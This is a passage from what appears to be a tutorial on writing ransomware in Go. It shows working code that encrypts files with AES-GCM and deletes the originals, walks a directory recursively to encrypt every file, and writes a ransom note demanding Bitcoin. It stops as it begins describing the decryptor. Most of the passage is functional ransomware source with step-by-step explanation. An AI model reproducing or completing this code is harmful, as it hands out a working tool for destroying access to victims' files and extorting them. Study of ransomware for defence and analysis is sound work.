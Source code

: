 ```
 // Delete the original file
     return os.Remove(path)
}
```

- The **file is read into memory**.
- A **256-bit AES cipher** is created.
- **AES-GCM encryption** is performed, and a **random nonce** is generated.
- The **nonce is prepended to the ciphertext**, so it can be used during decryption.
- The **encrypted file is saved** with the **“.enc”** extension.
- The **original file is deleted**.

#### 5. Encrypting an Entire Directory

Instead of encrypting just one file, the script **scans an entire directory** and encrypts all files within it.

```
func encryptDirectory(dir string, aesKey []byte) {
	_ = filepath.Walk(dir, func(path string, info os.FileInfo, err error) error {
		if err == nil && !info.IsDir() {
			fmt.Println("Encrypting:", path)
			encryptFile(path, aesKey)
		}
		return nil
	})
}
```

- The function **recursively goes through all files** in the given directory.
- Each file is **encrypted individually**.

#### 6. Dropping the Ransom Note

To inform the victim that their files have been encrypted, the script **drops a ransom note** in the directory.

```
func dropRansomNote(dir string) {
	note := `YOUR FILES HAVE BEEN ENCRYPTED.
To recover them, send Bitcoin and contact us.`
	_ = os.WriteFile(filepath.Join(dir, "README_RECOVER.txt"), []byte(note), 0666)
}
```

- The ransom note is written as a text file (`README_RECOVER.txt`).
- It instructs the victim to send Bitcoin and contact the attacker.

The encoder is now finished, therefore let us move on to the decoder to unlock the files.

* * *

The idea of the code can be divided into:

**Retrieve the Encrypted AES Key**:

- Read the AES key from `key.txt` (Base64 encoded).
- Decode it to get the encrypted AES key.
